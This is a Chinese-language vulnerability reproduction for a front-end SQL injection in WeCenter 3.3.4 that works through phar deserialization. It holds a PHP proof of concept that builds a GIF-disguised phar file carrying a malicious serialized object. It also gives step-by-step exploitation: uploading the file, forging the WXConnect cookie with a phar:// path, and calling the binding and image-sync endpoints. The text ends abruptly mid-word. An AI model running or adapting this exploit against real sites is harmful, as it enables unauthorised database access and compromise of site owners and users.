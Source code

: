 WeCenter 3.3.4 前台sql注入
==========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 任意sql语句执行

**system/aws\_model.inc.php:\_\_destruct()** 方法中存在任意 **SQL**
语句执行。

![](./.resource/WeCenter3.3.4前台sql注入/media/rId25.png)

### poc

    <?php
    class AWS_MODEL
    {
        private $_shutdown_query = array();

        public function __construct($_shutdown_query)
        {
            $this->_shutdown_query = $_shutdown_query;
        }
    }

    $sql = array('select updatexml(1,concat(0x3a,md5(233),0x3a),1)');
    $evilobj = new AWS_MODEL($sql);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();
    ?>

### 利用

首先注册账号，并利用上面的poc生成Phar文件，并将运行后将生成的`shell.gif`通过编辑器的上传功能上传到服务器上。

![](./.resource/WeCenter3.3.4前台sql注入/media/rId28.png)

记录下上传后的目录

![](./.resource/WeCenter3.3.4前台sql注入/media/rId29.png)

#### 生成并设置`COOKIE`中的`WXConnect`值

    <?php
        $arr = array();
        $arr['access_token'] = array('openid' => '1');
        $arr['access_user'] = array();
        $arr['access_user']['openid'] = 1;
        $arr['access_user']['nickname'] = 'naiquan';
        $arr['access_user']['headimgurl'] = 'phar://uploads/question/20200107/a3df6f75e11120c22ba0d85519c5d442.gif';
        echo json_encode($arr);
    ?>

将`headimgurl`的值设置成`phar`伪协议解析的恶意文件后运行，将结果放入Cookie中，前缀可参考Cookie中的其他参数。

#### 访问`app/m/weixin.php`下的`binding_action`

![](./.resource/WeCenter3.3.4前台sql注入/media/rId32.png)

提示绑定微信成功后进行下一步

#### 访问`app/account/ajax.php`下的`synch_img_action`

![](./.resource/WeCenter3.3.4前台sql注入/media/rId34.png)

任意
